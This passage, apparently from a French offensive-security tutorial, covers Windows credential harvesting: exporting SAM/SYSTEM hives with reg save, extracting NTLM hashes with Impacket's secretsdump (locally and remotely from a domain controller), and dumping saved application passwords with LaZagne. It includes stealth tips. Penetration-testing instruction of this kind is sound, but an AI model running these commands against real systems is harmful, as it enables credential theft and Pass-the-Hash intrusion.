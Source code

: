 La base SAM (Security Account Manager) stocke les hachages des comptes locaux Windows. Son extraction permet de récupérer les hachages NTLM des utilisateurs locaux, potentiellement utilisables pour des attaques de type "Pass-the-Hash" ou pour des tentatives de cracking hors ligne.

#### Extraction avec des outils natifs

Reg.exe permet d'exporter les ruches de registre nécessaires :

```
reg save HKLM\SAM sam.save
reg save HKLM\SYSTEM system.save
```

Ces fichiers peuvent ensuite être transférés sur la machine de l'attaquant pour analyse.

#### Extraction et analyse avec Impacket

Secretsdump.py de la suite Impacket permet d'extraire et d'analyser les hachages à partir des fichiers SAM et SYSTEM :

```
secretsdump.py -sam sam.save -system system.save LOCAL
```

Cette commande extrait les hachages NTLM des comptes locaux, qui peuvent ensuite être utilisés pour des attaques de Pass-the-Hash ou des tentatives de cracking.

Dans un environnement de domaine, secretsdump.py peut également extraire les hachages directement depuis un contrôleur de domaine :

```
secretsdump.py domaine/administrateur:motdepasse@192.168.1.10
```

Cette commande réalise une extraction similaire à la fonctionnalité DCSync de Mimikatz, mais avec un outil potentiellement moins détecté.

### LaZagne : extraction des credentials des applications

LaZagne est un outil spécialisé dans la récupération des mots de passe stockés par diverses applications : navigateurs web, clients email, clients FTP, etc. Son approche est différente de Mimikatz, car il cible les stockages spécifiques aux applications plutôt que les mécanismes d'authentification du système.

```
lazagne.exe all
```

Cette commande lance une recherche exhaustive de credentials dans toutes les applications supportées. Pour une approche plus discrète, il est préférable de cibler des catégories spécifiques :

```
lazagne.exe browsers
lazagne.exe wifi
lazagne.exe windows
```

LaZagne est particulièrement utile pour récupérer des mots de passe qui pourraient être réutilisés dans d'autres contextes, comme des services cloud ou des applications internes.
